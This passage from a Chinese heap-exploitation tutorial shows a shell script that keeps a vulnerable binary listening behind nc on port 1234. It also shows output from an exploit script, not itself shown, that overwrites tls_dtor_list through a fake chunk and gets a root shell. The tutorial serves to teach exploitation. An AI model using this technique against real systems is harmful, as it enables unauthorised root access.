 ```py
```

由于在爆破技巧中，我们需要尝试多次（直到成功）。让我们将我们的漏洞二进制`vuln`运行为网络服务器，并使用 Shell 教程来确保崩溃时自动重启：

```sh
#vuln.sh
#!/bin/sh
nc_process_id=$(pidof nc)
while :
do
 if [[ -z $nc_process_id ]]; then
 echo "(Re)starting nc..."
 nc -l -p 1234 -c "./vuln sploitfun"
 else
 echo "nc is running..."
 fi
done
```

执行上述利用代码会给我们 root shell。好的。

```
Shell-1$./vuln.sh
Shell-2$python exp.py
...
** Leaked heap addresses : [0x889d010] **
** Constructing fake chunk to overwrite tls_dtor_list**
** Successfull tls_dtor_list overwrite gives us shell!!**
*** Connection closed by remote host ***
** Leaked heap addresses : [0x895d010] **
** Constructing fake chunk to overwrite tls_dtor_list**
** Successfull tls_dtor_list overwrite gives us shell!!**
*** Connection closed by remote host ***
id
uid=0(root) gid=1000(bala) groups=0(root),10(wheel),1000(bala) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
exit
** Leaked heap addresses : [0x890c010] **
** Constructing fake chunk to overwrite tls_dtor_list**
** Successfull tls_dtor_list overwrite gives us shell!!**
*** Connection closed by remote host ***
...
$
```

参考：

[Revisiting Defcon CTF Shitsco Use-After-Free Vulnerability – Remote Code Execution](http://v0ids3curity.blogspot.in/2015/02/revisiting-defcon-ctf-shitsco-use-after.html)
